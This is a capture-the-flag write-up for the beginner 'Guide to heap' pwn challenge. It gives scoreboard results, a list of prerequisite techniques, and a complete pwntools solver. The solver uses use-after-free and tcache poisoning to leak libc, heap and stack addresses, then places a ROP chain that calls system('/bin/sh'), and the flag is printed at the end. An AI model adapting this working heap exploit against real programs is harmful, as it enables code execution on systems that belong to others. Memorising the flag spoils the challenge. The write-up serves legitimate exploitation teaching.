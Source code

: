 # Guide to heap

This problem was generated using ChatGPT. No modifications have been made to the original source code.  
Originally, as the title suggests, I intended this to be a beginner-friendly heap problem where simply following the instructions would allow you to obtain the flag.  
I apologise for the misleading title.  
However, as it is a template problem, I believe it remains within the scope of beginner-friendly content.

## Result
Solved: 28  
Points: 383

1st: syn9(sknb)  
2nd: 0xM4hm0ud(The Trio)  
3rd: 5unsetpowerln(TPC)

## Challenge
We will guide you to the door of the heap world!  
`nc chal1.fwectf.com 8010`

Attachment: [guide_to_heap.zip](guide_to_heap.zip)

## writeup

Knowing the following will enable you to solve it:
* tcache, unsortedbin, etc.
* double free, UAF
* tcache poisoning
* libc leak
* ROP

Below is the executable code:
```python solver.py
from pwn import *

elf = context.binary = ELF('./chall')
libc = ELF('./libc.so.6')

def allocate_(index, size, data=None, zero=False):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(index).encode())
    p.sendlineafter(b': ', str(size).encode())
    if not zero:
        p.sendafter(b': ', data)
def delete_(index):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(index).encode())
def edit_(index, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b': ', str(index).encode())
    p.sendafter(b': ', data)
def show_(index):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b': ', str(index).encode())
def exit_():
    p.sendlineafter(b'> ', b'5')

p = process('./chall')

allocate_(0, 0x418, b'A'*0x418)
allocate_(1, 0x18, b'B'*0x18)
delete_(0)
delete_(1)

show_(0)
libc.address = u64(p.recvn(6).ljust(8, b'\0')) - 0x203b20
print('libc', hex(libc.address))

libc_argv = libc.address + 0x2046e0

show_(1)
heap = u64(p.recvn(3).ljust(8, b'\0')) << 12
print('heap', hex(heap))

allocate_(2, 0x18, b'A'*0x18)
allocate_(3, 0x18, b'B'*0x18)
delete_(2)
delete_(3)
edit_(3, p64((heap>>12)^libc_argv))
allocate_(4, 0x18, b'C'*0x18)
allocate_(5, 0x0, zero=True)
show_(5)
stack = u64(p.recvn(6).ljust(8, b'\0'))
print('stack', hex(stack))

target_stack = stack - 0x148

allocate_(6, 0x108, b'X'*0x108)
allocate_(7, 0x108, b'Y'*0x108)
delete_(6)
delete_(7)
edit_(7, p64(target_stack^(heap>>12)))
allocate_(0, 0x108, b'Z'*0x100)

system = libc.sym['system']
binsh  = next(libc.search(b'/bin/sh\0'))
pop_rdi = libc.address + 0x001ae710
ret = pop_rdi + 1

rop = flat(
    ret,
    pop_rdi,
    binsh,
    system,
)
payload  = p64(0xdeadbeef)
payload += rop
allocate_(1, 0x108, payload)

p.interactive()
```

## flag

`fwectf{kn0w1ng_7c4ch3}`
